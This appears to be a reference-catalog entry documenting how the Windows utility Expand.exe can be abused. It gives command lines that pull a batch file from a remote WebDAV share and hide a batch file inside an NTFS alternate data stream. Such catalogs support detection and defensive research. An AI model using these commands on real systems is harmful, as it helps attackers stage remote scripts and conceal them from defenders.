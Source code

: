 ## Expand.exe

* Functions: Download, Copy, Add ADS

```
expand \\webdav\folder\file.bat c:\ADS\file.bat    

expand c:\ADS\file1.bat c:\ADS\file2.bat    

expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat     
```

Acknowledgements:
* Rahmat Nurfauzi - @infosecn1nja
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/infosecn1nja/status/986628482858807297
* https://twitter.com/Oddvarmoe/status/986709068759949319

Full path:
```
c:\windows\system32\Expand.exe
c:\windows\sysWOW64\Expand.exe
```

Notes:



 
